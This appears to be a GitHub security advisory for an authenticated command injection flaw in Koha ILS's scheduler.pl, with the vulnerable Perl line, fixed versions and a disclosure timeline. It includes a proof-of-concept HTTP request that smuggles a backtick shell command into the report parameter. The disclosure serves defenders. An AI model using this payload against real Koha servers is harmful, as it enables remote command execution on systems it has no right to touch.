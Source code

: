 # Koha ILS Command Injection Vulnerability

This repository documents a command injection vulnerability in Koha Integrated Library System affecting versions prior to 24.05.07, 24.11.02, 23.11.12, and 22.11.24.

## Vulnerability Details

- **CVE ID**: CVE-YYYY-XXXXX (pending assignment)
- **Vulnerability Type**: Command Injection
- **CWE**: CWE-78 (Improper Neutralisation of Special Elements used in an OS Command)
- **Affected Component**: tools/scheduler.pl
- **Affected Versions**: 
  - < 24.05.07
  - < 24.11.02 
  - < 23.11.12
  - < 22.11.24

## Description

Koha Integrated Library System contains an authenticated command injection vulnerability in the task scheduler functionality. The vulnerability exists in `tools/scheduler.pl` where user input from the `$report` parameter is directly interpolated into a shell command without proper sanitisation. An authenticated administrator with access to the scheduler functionality can execute arbitrary commands on the server.

## Technical Details

The vulnerability is present in lines 92-94 of `tools/scheduler.pl`:

```perl
my $command =
      "export KOHA_CONF=\"$CONFIG_NAME\"; "
    . "$base/cronjobs/runreport.pl $report --format=$format --to='$email'";
```

The `$report` variable comes from user input and undergoes flawed validation. The code converts the input to an integer to check if a report exists in the database, but then uses the original, unmodified string in the command. This allows an attacker to append shell metacharacters after a valid report ID to inject commands that will be executed on the server.

## Proof of Concept

The following HTTP request can be used to exploit the vulnerability:

```http
POST /cgi-bin/koha/tools/scheduler.pl HTTP/1.1
Host: [koha-instance]
Content-Type: application/x-www-form-urlencoded
Cookie: [authentication-cookies]

csrf_token=[token]&op=cud-add&starttime=16:33&startdate=&report=19012025```echo "RCE test" > /tmp/rce.txt```&format=text&email=test@example.com
```

This creates a file `/tmp/rce.txt` containing "RCE test" on the target server.

## Impact

This vulnerability allows an authenticated administrative user to:
- Execute arbitrary commands with the permissions of the web server user
- Access, modify, or delete library data
- Potentially gain further access to the host system

## Responsible Disclosure

This vulnerability was reported to the Koha project maintainers on the 19th of February 2025, and has been fixed in the following releases:
- 24.05.07
- 24.11.02
- 23.11.12
- 22.11.24

## Timeline

- **Discovery**: 19/02/2025
- **Reported**: 19/02/2025
- **Fixed**: 27/02/2025
- **Public disclosure**: 27/02/2025

## Credit

Discovered by Craig Fairman

## References

1. https://bugs.koha-community.org/bugzilla3/show_bug.cgi?id=39170)

